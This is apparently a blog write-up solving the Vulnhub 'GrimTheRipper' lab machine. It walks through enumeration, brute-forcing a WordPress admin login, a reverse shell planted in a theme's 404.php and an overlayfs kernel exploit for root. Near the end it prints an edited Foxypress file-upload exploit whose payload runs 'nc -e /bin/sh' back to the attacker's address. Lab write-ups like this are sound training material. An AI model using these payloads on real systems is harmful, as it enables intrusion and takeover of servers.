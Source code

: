 ```yaml
---
layout: post
title: Vulnhub - GrimTheRipper writeup
date: 2019-08-24 3:45 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/grimtheripper-1,350/">GrimTheRipper:1</a>
  <br>
</h1>

<h4 align="center"> Author: Manish Chandra</h4>

## Nmap

![](images/grim/nmap.png)

Looks like a Simple machine with only two ports open. Let's enum HTTP

***

## HTTP

![](images/grim/website.png)

Visiting the website we get nothing but the image of kevin hart.

I ran gobuster on this to find any hidden dir.

![](images/grim/gobuster.png)

We can see `robots.txt` there. In that I found `/index2.html`.

![](images/grim/robots.png)

If we visit `http://192.168.184.134/index2.html` we can see again a random image

![](images/grim/rando.png)

But in the source of that page I found a base64 encoded string.

![](images/grim/source.png)

`--THpFd01UQXhNREU9IHRyeSBoYXJk--`

I decoded it to find a new URL

![](images/grim/decode.png)

`/1010101`

If we visit that URL we can see a new directory named `wordpress`.

![](images/grim/wp-dir.png)

Since we've found a `wordpress` directory maybe it's time to run `wpscan`

![](images/grim/wordpress.png)

__NOTE__: All the links on this wordpress will be leading to localhost i.e 127.0.0.1. To fix this run the following command on your system(not the target VM)

```
➜ socat TCP-LISTEN:80,fork TCP:Target-IP:80
```

So for me the machine IP was `192.168.184.134` in that case the command would be

```
➜ socat TCP-LISTEN:80,fork TCP:192.168.184.134:80
```

Now if we open the website we'll see a properly formatted wordpress with all the links working fine.

***
At this point we ([@4ndr34z](https://twitter.com/@4ndr34z), [@DCUA7](https://twitter.com/DCUA7), [@theart42](https://twitter.com/theart42), [@Robin](https://twitter.com/D4mianWayne)) were stucked for hours. We checked everything we could like shellshock vulnerability because the Apache server was old. Then we did SSH username enumeration because OpenSSH version was old. But we found nothing.

After many hours [@4ndr34z](https://twitter.com/4ndr34z) found the `admin` password for wordpress via bruteforce. It literally took more then 6 or 7 hours.

***

![](images/grim/pass.png)

__image by @4ndr34z__

`admin:Password@123`

With this password I was able to login into Wordpress.

![](images/grim/logged-in.png)

I edited the `Twenty Twelve` 404.php file with my reverse shell code.

![](images/grim/edit.png)

Now If we visit `http://192.168.184.134/1010101/wordpress/wp-content/themes/twentytwelve/404.php` while our listener is listening on port 4444 then we'll get the reverse shell.

![](images/grim/rev.png)

***

## Privilege escalation

I ran enumeration script and it found quite a few things.

![](images/grim/users.png)

and

![](images/grim/old-kernel.png)

I searched this kernel with `searchsploit` and found `overlayfs` exploit.

![](images/grim/exploit.png)

I downloaded that exploit and compiled it on the machine. After executing it I got the root shell.

![](images/grim/root-shell.png)

There was no root flag but still I was root.

![](images/grim/root.png)


***

## Intended way of getting shell

Okay so this is still kinda guessy but we think that `foxypress` plugin exploitation is the real way to get the reverse shell.

For exploiting `foxypress` we can use [WordPress Plugin Foxypress 0.4.1.1 < 0.4.2.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/18991) exploit.

Edit the exploit in the following way:

```php
<?php

$uploadfile="lo.php";
$ch =
curl_init("http://http://192.168.184.134/1010101/wordpress/wp-content/plugins/foxypress/uploadify/uploadify.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>"@$uploadfile"));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>

<?php
system("nc -e /bin/sh 192.168.184.1 4444");
?>
```

And then run this exploit `php exploit.php` while your listener is running.

But the problem with this is we only know about `foxypress` because we logged in into wordpress. wpscan didn't pointed out presence of `foxypress`. So the question still remains that how do we know we are supposed to exploit that.

***

If this machine was supposed to be done the way we did it then it's really bad machine. I mean 6-7 hours of pure bruteforce is insane, not in a good way.

But if author or someone else ends up reading this and knows the really way to solve this then please let me know.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
